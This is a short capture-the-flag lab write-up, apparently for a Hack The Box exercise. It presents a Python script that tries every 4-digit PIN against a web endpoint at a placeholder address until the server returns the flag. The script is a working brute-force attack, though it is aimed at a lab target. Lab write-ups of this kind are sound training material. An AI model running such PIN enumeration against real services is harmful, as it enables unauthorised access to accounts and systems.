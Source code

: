 # Brute Force Attacks

After successfully brute-forcing the PIN, what is the full flag the script returns?

This simple lab challenges us to to a simple brute force attack to a web application that requires a PIN for a special access.

To solve this we can you the script provided by the HTB:

{% code overflow="wrap" %}
```python
import requests

ip = "SERVER_IP"  # Change this to your instance IP address
port = SERVER_PORT       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```
{% endcode %}

Make sure to replace the IP e and PORT of your target machine.

Then just run the script and wait for the results:

```bash
python pin-solver.py
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After a while, the script eventually gets the PIN and we find our flag!
